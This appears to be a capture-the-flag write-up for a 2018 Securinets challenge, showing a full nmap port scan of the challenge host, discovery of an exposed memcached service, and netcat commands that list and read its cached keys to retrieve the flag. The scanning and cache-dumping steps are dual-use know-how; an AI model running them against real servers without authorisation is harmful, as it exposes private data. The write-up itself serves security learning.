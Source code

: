 Service Hidden in the bush
--------------------------
> The Emperors wanted to hide their secret in a location where they can read it quickly,
> But they don't know anything about Security. Try to expose it: net1.quals18.ctfsecurinets.com

First, `nmap` the host to see what services are running
```console
$ nmap -vvvv -Pn net1.quals18.ctfsecurinets.com -p1-65535 -sT                                                                                                                                               master 130

Starting Nmap 6.40 ( http://nmap.org ) at 2018-03-25 18:52 CEST
Initiating Parallel DNS resolution of 1 host. at 18:52
Completed Parallel DNS resolution of 1 host. at 18:52, 6.53s elapsed
DNS resolution of 1 IPs took 6.53s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating Connect Scan at 18:52
Scanning net1.quals18.ctfsecurinets.com (34.245.183.111) [65535 ports]
Discovered open port 22/tcp on 34.245.183.111
Connect Scan Timing: About 17.68% done; ETC: 18:55 (0:02:24 remaining)
Connect Scan Timing: About 38.88% done; ETC: 18:55 (0:01:36 remaining)
Discovered open port 11211/tcp on 34.245.183.111
Connect Scan Timing: About 62.37% done; ETC: 18:55 (0:00:55 remaining)
Completed Connect Scan at 18:55, 159.85s elapsed (65535 total ports)
Nmap scan report for net1.quals18.ctfsecurinets.com (34.245.183.111)
Host is up (0.050s latency).
rDNS record for 34.245.183.111: ec2-34-245-183-111.eu-west-1.compute.amazonaws.com
Scanned at 2018-03-25 18:52:39 CEST for 159s
Not shown: 65533 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
11211/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 166.45 seconds
```

What's on port 11211? [Memcached](https://www.speedguide.net/port.php?port=11211)!

Using some [help from StackOverflow](https://stackoverflow.com/questions/19560150/get-all-keys-set-in-memcached) and a [Memcached telnet command list](https://blog.elijaa.org/2010/05/21/memcached-telnet-command-summary/#get), we can then:

```console
$ nc net1.quals18.ctfsecurinets.com  11211
stats items
STAT items:1:number 1
STAT items:1:age 0
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 83171
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
STAT items:1:lrutail_reflocked 0
END
stats cachedump 1 100
ITEM flag [23 b; 1521998034 s]
END
get flag
VALUE flag 0 23
Flag{M3mc4cH3d_3xp0s3d}
END
```

```

```
